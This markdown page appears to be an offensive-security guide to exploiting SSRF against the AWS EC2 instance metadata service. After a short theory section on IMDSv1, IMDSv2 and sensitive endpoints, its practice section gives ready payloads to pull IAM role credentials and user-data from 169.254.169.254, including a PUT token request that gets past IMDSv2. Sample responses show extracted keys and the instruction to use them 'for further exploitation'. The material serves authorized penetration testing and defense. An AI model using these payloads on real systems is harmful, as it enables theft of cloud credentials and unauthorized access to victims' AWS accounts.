 ```yaml
---
title: Exploit EC2 Instance Metadata via SSRF
description: Learn to exploit AWS EC2 instance metadata through SSRF, extract credentials,
  and understand IMDS security.
keywords:
  - "EC2 Instance Metadata"
  - "SSRF Exploitation"
  - "AWS Security"
  - "IMDSv1 vs IMDSv2"
  - "IAM Role Credentials"
  - "AWS Privilege Escalation"
  - "Cloud Metadata"
  - "Metadata Service"
  - "AWS Exploit Techniques"
---
```


# EC2 Instance Metadata

## Context

EC2 Instance Metadata is a critical resource for offensive operators who aim to exploit SSRF (Server-Side Request Forgery) vulnerabilities within AWS environments. By understanding how to utilize EC2 instance metadata, attackers can gain valuable insights and credentials, enabling potential privilege escalation within Amazon Web Services. This guide assumes familiarity with HTTP protocol fundamentals, cloud service architecture, metadata service concepts, and SSRF exploitation techniques.

## Theory

### AWS EC2 Instance Metadata Service (IMDS) Overview

The EC2 Instance Metadata Service (IMDS) provides instance-specific data to virtual machines (VMs) running on AWS. Located at the IP address 169.254.169.254, the service allows applications running on EC2 instances to query and retrieve metadata using HTTP GET requests. This metadata includes sensitive information such as IAM role credentials, user-data, and instance identity documents.

### IMDSv1 vs IMDSv2 Security Mechanisms

IMDSv1 allows unauthenticated HTTP requests, making it vulnerable to basic SSRF attacks. In response to these vulnerabilities, AWS introduced IMDSv2, which requires requests to include a valid session token obtained via a PUT request. While IMDSv2 mitigates some risks by requiring token authentication, the tokens are typically short-lived and must be included in subsequent requests.

### Sensitive Metadata Endpoints

Several metadata endpoints are especially valuable for attackers:

- `/latest/meta-data/iam/security-credentials/`: This endpoint exposes temporary AWS credentials associated with the instance's IAM role.
- `/latest/user-data/`: This may contain bootstrap scripts, secrets, or configuration data.
- `/latest/dynamic/instance-identity/document`: Provides instance identity and region information, which could be useful for further exploitation.

### Attacker Goals and Threat Surface

The primary goal of attackers is to exploit SSRF vulnerabilities to access EC2 instance metadata, extract AWS credentials, and use those credentials for unauthorized API access within the AWS environment. Successful exploitation may lead to privilege escalation, especially if the instance's IAM role possesses broad permissions.

### IPv6 and Alternate Metadata Endpoints

If enabled, IMDS can also be accessed via an IPv6 endpoint at fd00:ec2::254. This can provide an alternate path in environments supporting IPv6.

## Practice

### Exploiting SSRF to Access EC2 Instance Metadata (IMDSv1)

In this scenario, the attacker utilizes a vulnerable application capable of SSRF to interact with the IMDSv1 service.

- **Payload:** `http://169.254.169.254/latest/meta-data/iam/security-credentials/`
  - Submit the payload via the SSRF-vulnerable parameter or header to target the IAM credentials endpoint.
  
- **Response:** 
  ```
  admin-role
  ```
  - The response returns the name of the IAM role assigned to the instance.

- **Payload:** `http://169.254.169.254/latest/meta-data/iam/security-credentials/admin-role`
  - This request fetches the temporary AWS credentials for the specified role.

- **Response:** 
  ```
  {
    "AccessKeyId": "ASIA...",
    "SecretAccessKey": "wJalrXUtnFEMI/K7MDENG/bPxRfiCYzEXAMPLEKEY",
    "Token": "IQoJb3JpZ2luX2VjE...",
    "Expiration": "2024-06-30T12:34:56Z"
  }
  ```
  - Extract AWS credentials for further exploitation.

### Bypassing IMDSv2 Token Requirement via SSRF

This scenario involves bypassing IMDSv2 token requirements by leveraging SSRF vectors that support custom HTTP methods and headers.

- **Payload:** 
  ```
  PUT http://169.254.169.254/latest/api/token
  X-aws-ec2-metadata-token-ttl-seconds: 21600
  ```
  - Request a session token from IMDSv2 by relaying the PUT request via SSRF-capable vectors.

- **Response:** 
  ```
  AQAEb...<token>
  ```
  - IMDSv2 returns a session token.

- **Payload:** 
  ```
  GET http://169.254.169.254/latest/meta-data/iam/security-credentials/
  X-aws-ec2-metadata-token: AQAEb...<token>
  ```
  - Use the token to authenticate and access the metadata.

- **Response:** 
  ```
  admin-role
  ```
  - Retrieve the IAM role name, similar to IMDSv1 access.

### Accessing User-Data and Instance Identity Document

Using SSRF, attackers can also access other sensitive metadata endpoints:

- **User-Data Endpoint:** `http://169.254.169.254/latest/user-data/`
  - Access scripts or configurations potentially containing secrets.
  
- **Instance Identity Document:** `http://169.254.169.254/latest/dynamic/instance-identity/document`
  - Retrieve the document for instance identity and region data.

## Tools

- **curl**
- **awscli**
- **Burp Suite**